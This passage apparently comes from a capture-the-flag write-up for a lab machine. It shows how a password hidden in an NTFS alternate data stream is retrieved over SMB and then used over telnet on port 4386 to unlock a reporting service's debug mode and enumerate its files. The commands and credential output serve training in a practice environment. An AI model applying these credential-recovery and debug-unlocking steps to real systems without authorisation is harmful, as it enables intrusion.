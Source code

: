 We see that there is a hidden data stream using that we can the data steam password to download the file

```bash
smb: \C.smith\HQK Reporting\> get "Debug Mode Password.txt":Password
getting file \C.smith\HQK Reporting\Debug Mode Password.txt:Password of size 15 as Debug Mode Password.txt:Password (0.0 KiloBytes/sec) (average 0.0 KiloBytes/sec)
```

Now we see that we have downloaded the file with some content in it.

```bash
cat Debug\ Mode\ Password.txt:Password 
WBQ201953D8w 
```

### Using the debug mode on port 4386

```bash
telnet 10.10.10.178 4386
Trying 10.10.10.178...
Connected to 10.10.10.178.
Escape character is '^]'.

HQK Reporting Service V1.2

>DEBUG WBQ201953D8w

Debug mode enabled. Use the HELP command to view additional commands that are now available
```

Now we so have some commands available

We can use the debug mode and enumerate more things on the box, while enumerating we can see that we do have a ldap directory where we got the ldap.conf file with a encrypted password

```bash
>DEBUG WBQ201953D8w

Debug mode enabled. Use the HELP command to view additional commands that are now available
>list

Use the query ID numbers below with the RUNQUERY command and the directory names with the SETDIR command

 QUERY FILES IN CURRENT DIRECTORY

[DIR]  COMPARISONS
[1]   Invoices (Ordered By Customer)
[2]   Products Sold (Ordered By Customer)
[3]   Products Sold In Last 30 Days

Current Directory: ALL QUERIES
>help

This service allows users to run queries against databases using the legacy HQK format

--- AVAILABLE COMMANDS ---

LIST
SETDIR <Directory_Name>
RUNQUERY <Query_ID>
DEBUG <Password>
HELP <Command>
SERVICE
SESSION
SHOWQUERY <Query_ID>

```